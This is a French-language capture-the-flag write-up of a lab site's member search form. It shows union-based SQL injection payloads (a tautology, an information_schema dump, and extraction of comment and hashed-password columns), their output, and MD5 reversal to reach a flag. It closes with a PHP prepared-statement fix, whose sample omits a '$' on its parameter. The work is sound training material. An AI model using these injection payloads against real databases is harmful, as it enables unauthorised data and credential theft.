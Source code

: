 
# Explications

Dans la page "member", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form  action="#"  method="GET"  data-children-count="1">
<input  type="hidden"  name="page"  value="member">
<input  type="text"  name="id"  style="width:100%;">
<br>
<input  type="submit"  value="Submit"  name="Submit">
</form>
```
On observe que si on laisse le champs vide et que l'on lance une recherche, on obtient une erreur:

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1**

Donc on sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les users s'affichent
<pre>
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce du **First name** et du **Surname**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **users** qui contient les colonnes :
1. user_id
2. first_name
3. last_name
4. town
5. country
6. planet
7. Commentaire
8. countersign

On cherche donc des informations intéressantes.
<code></code>

On try 2 part 2 les champs jusqu'à trouver 2 colonnes intéressante, **Commentaire** et **countersign** qui donnent :

<pre>
ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Barack Hussein
Surname : Obama

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
</pre>

Le password <code>5ff9d0165b4f92b14994e5c685cdce28</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>FortyTwo</pre>
On lower le tout et on applique un Sha256 pour obtenir le flag

# Comment éviter cela ?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```
